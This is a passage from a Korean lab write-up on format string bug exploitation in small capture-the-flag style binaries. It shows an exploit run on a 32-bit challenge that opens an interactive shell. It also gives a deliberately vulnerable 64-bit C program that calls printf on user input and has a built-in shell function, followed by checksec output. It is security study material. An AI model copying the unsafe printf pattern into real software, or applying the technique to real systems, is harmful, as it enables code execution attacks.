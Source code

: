 
---
- 결과
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/pwnable/FSB_32]
└─$ python3 exploit.py 
[+] Starting local process './FSB_32_shell': pid 33716
[*] '/home/foo1/Desktop/kknock/pwnable/FSB_32/FSB_32_shell'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
^\x9f\xe0\xff\\x9f\xe0\xff      ...     \\xf7$\xls
exploit.py  FSB_32_shell  FSB_32.zip  main.c
$  
```

---
# 예시2(FSB_EX)
- 문제코드
```c
#include <stdio.h>
#include <stdlib.h>

void shell(){
    system("/bin/sh");
}

int main(void){
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    char buf[200];
    printf("%p\n", buf);
    read(0, buf, 200);
    printf(buf);
    return 0;
}
//gcc -no-pie -fstack-protector -o FSB_EX main.c
```
---
- 분석
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/pwnable/FSB_EX]
└─$ checksec ./FSB_EX
[*] '/home/foo1/Desktop/kknock/pwnable/FSB_EX/FSB_EX'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
이 문제도 x86 문제와 동일한 방식으로 해결할 수 있지만 고려해야 할 몇 가지 문제가 있음

---